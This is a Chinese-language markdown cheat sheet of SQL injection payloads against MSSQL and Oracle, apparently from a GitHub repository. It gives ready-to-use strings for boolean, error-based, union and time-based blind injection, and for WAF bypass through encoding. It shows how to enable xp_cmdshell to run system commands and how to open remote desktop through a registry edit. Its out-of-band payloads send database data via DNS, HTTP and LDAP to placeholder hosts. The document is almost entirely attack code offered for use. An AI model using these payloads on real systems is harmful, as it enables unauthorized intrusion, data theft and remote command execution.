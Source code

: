 # 渗透相关语法

相关漏洞学习资料，利用方法和技巧合集 


目录
-----------------

* [Hacking study](#渗透相关语法)
	* [注入基础](#注入基础)
		 * [mssql注入](#mssql注入)
			* [布尔注入](#布尔注入)
			* [报错注入](#报错注入)
			* [绕waf](#绕waf)
		 * [oracle注入](#oracle注入)
			* [联合查询](#联合查询)
			* [报错注入](#报错注入)
			* [带外注入](#带外注入)
			* [时间盲注](#时间盲注)
## 注入基础
> **mssql、mysql、oracle 相关注入基础语句** 
### mssql注入

####布尔注入：

**判断版本号**
```
' aNd @@version LIKE '%2015%'--+	
```
**如果存在，返回 true说明后台数据库是MSSQL，否则返回 false**
```
' and exists(select * from sysobjects)--+	
```
**判断当前是否为sa**
```
' and exists(select is_srvrolemember('sysadmin'))--+	
```
**判断有没有xp_cmdshell扩展**
```
' and (select count(*) FROM master. dbo.sysobjects Where xtype ='X' AND name = 'xp_cmdshell')>0--+	
```
**恢复xp_cmdshell**
```
';dbcc addextendedproc ("sp_oacreate","odsole70.dll")
';dbcc addextendedproc ("xp_cmdshell","xplog70.dll")
或
';exec sp_addextendedproc xp_cmdshell,@dllname ='xplog70.dll'--+
```
**开启xp_cmdshell**
```
;EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE--+
```
**命令执行**
```
';exec master..xp_cmdshell 'net user'--+	
' and 1=(select * from openrowset('sqloledb','trusted_connection=yes','set fmtonly off exec master..xp_cmdshell ''net user'''))--+
```
**创建一个包含两个字段t1的cmd_sql表**
```
'; CREATE TABLE cmd_sql (t1 varchar(8000))--+
将执行结果存入t1中
';+insert into cmd_sql(t1) exec master..xp_cmdshell 'net user'--+
```
**开启3389端口**
```
';exec master..xp_cmdshell 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f'--+	
```

####报错注入：

**查看版本号**
```
file_name(@@version)
```
**变换N的值就可以爆出所有数据库的名称**
```
' and (convert(int,db_name(N)))>0--+ 
```
**查看当前用户**
```
' and (user)>0--+ 	
' and 1=(select CAST(USER as int))--+
```
**获取当前数据库**  
```
' and 1=(select db_name())--+
```
**获取数据库该语句是一次性获取全部数据库，且语句只适合>=2005**
```
' and 1=(select quotename(name) from master..sysdatabases FOR XML PATH(''))--+
' and 1=(select '|'%2bname%2b'|' from master..sysdatabases FOR XML PATH(''))--+
```
**获取数据库所有表（只限于mssql2005及以上版本）**
```
' and 1=(select quotename(name) from 数据库名..sysobjects where xtype='U' FOR XML PATH(''))--+
' and 1=(select '|'%2bname%2b'|' from 数据库名..sysobjects where xtype='U' FOR XML PATH(''))--+
' and 1=(select top 1 name from sysobjects where xtype='u' and name <> '第一个数据库表名')--+
```
**一次性爆N条所有字段的数据（只限于mssql2005及以上版本）**
```
' and 1=(select top N * from 指定数据库..指定表名 FOR XML PATH(''))--+
' and 1=(select top 1 * from 指定数据库..指定表名 FOR XML PATH(''))--+
```
**暴表**
```
' and 1=convert(int,(select top 1 table_name from information_schema.tables))--+
```

####绕waf

**获取版本和数据库名**
```
'%1eaNd%1e@@version LIKE '%2015%'--+	
'%1eoR%1e1=(db_name/**/()%1e)%1e--+
```
**获取全部数据库**
```
'%1eoR%1e1=(SelEct/*xxxxxxxxxxxx*/%1equotename(name)%1efRom master%0f..sysobjects%1ewHerE%1extype='U' FOR XML PATH(''))%1e--
```
**获取表的所有列**
```
'%1eaND%1e1=(SelEct/*xxxxxxxxxxxx*/%1equotename/**/(name)%1efRom 数据库名%0f..syscolumns%1ewHerE%1eid=(selEct/*xxxxxxxxx*/%1eid%1efrom%1e数据库名%0f..sysobjects%1ewHerE%1ename='表名')%1efoR%1eXML%1ePATH/**/(''))%1e-
```

## oracle注入

####联合查询

**判断是否oracle，在mssql和mysql以及db2内返回长度值是调用len()函数；在oracle和INFORMIX则是length()**
```
' and len('a')=1--+
```
**获取当前数据库用户**
```
' and 1=2 union select null,(select banner from sys.v_$version where rownum=1),null from dual--+
```
**爆当前数据库中的第二个表**
```
' and 1=2 union select 1,(select table_name from user_tables where rownum=1 and table_name not in ('第一个表')) from dual--+
```
**爆某表中的第一个字段**
```
' and 1=2 union select 1,(select column_name from user_tab_columns where rownum=1 and table_name='表名（大写的）') from dual--+
```

####报错注入

**获取当前数据库用户**
```
' and 1=ctxsys.drithsx.sn(1,(select user from dual))--+
' and 1=utl_inaddr.get_host_name((select user from dual))--+
' and 1=(select decode(substr(user,1,1),'S',(1/0),0) from dual)--+
' and 1=ordsys.ord_dicom.getmappingxpath((select user from dual),user,user)--+
' and (select dbms_xdb_version.checkin((select user from dual)) from dual) is not null--+
' and (select dbms_xdb_version.uncheckout((select user from dual)) from dual) is not null--+
' and (select dbms_xdb_version.makeversioned((select user from dual)) from dual) is not null--+
' and (select dbms_utility.sqlid_to_sqlhash((select user from dual)) from dual) is not null--+
' and (select upper(XMLType(chr(60)||chr(58)||(select user from dual)||chr(62))) from dual) is not null--+
```

####带外注入

**获取当前数据库用户**
```
' and (select utl_inaddr.get_host_address((select user from dual)||'.xxx.xxx') from dual) is not null--+
```
**获取版本信息**
```
' and 1=utl_http.request('.xxx.xxxx'||(select banner from sys.v_$version where rownum=1))--+
' and (select SYS.DBMS_LDAP.INIT((select user from dual)||'.xxxx.xxxx') from dual) is not null--+
```

#####时间盲注
**当前获取用户**
```
' and 1=(DBMS_PIPE.RECEIVE_MESSAGE('a',10))--+
' AND 7238=(CASE WHEN (ASCII(SUBSTRC((SELECT NVL(CAST(USER AS VARCHAR(4000)),CHR(32)) FROM DUAL),1,1))>96) THEN DBMS_PIPE.RECEIVE_MESSAGE(CHR(71)||CHR(106)||CHR(72)||CHR(73),1) ELSE 7238 END)
```




